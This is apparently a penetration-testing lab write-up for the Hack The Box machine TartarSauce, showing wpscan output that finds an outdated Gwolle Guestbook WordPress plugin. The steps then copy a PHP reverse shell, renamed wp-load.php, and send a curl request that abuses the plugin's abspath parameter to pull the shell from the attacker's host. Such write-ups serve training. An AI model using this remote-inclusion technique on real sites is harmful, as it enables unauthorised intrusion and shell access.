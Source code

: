 # 20 - WP


![](vx_images/1240146871432.png)

![](vx_images/3490942492972.png)


# Vhost redirection on "Hello world!"
![](vx_images/5212004519348.png)


# See [22 - wp-scan](/home/kali/htb/tartarsauce/notes/22%20-%20wpscan.md)

```sql
[+] gwolle-gb
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2021-05-05T09:29:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.1.2
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Gwolle Guestbook <= 2.5.3 - Cross-Site Scripting (XSS)
 |     Fixed in: 2.5.4
 |     References:
 |      - https://wpscan.com/vulnerability/00c33bf2-1527-4276-a470-a21da5929566
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17884
 |      - https://seclists.org/fulldisclosure/2018/Jul/89
 |      - https://www.defensecode.com/advisories/DC-2018-05-008_WordPress_Gwolle_Guestbook_Plugin_Advisory.pdf
 |      - https://plugins.trac.wordpress.org/changeset/1888023/gwolle-gb
 |
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
```


#  An older version of gwolle-gb plugin is installed 2.3.10
![](vx_images/2516412124940.png)


# Searchsploit 
![](vx_images/3337978366514.png)

# Version on the exploit shouldn't discourage us, the author of the exploit recommends version 1.5.4 as a solution but this exploit works on this later version as well.


![](vx_images/2073024278872.png)

# php-reverse-shell.php
```sql
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ locate php-reverse-shell.php
/opt/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tatarsauce]
└─$ cp /opt/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php wp-load.php
```

Change the ip address and the port on the reverse shell, filename must be wp-load.php 

# Malicious request
```
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ curl http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.9/
```

![](vx_images/5541142761750.png)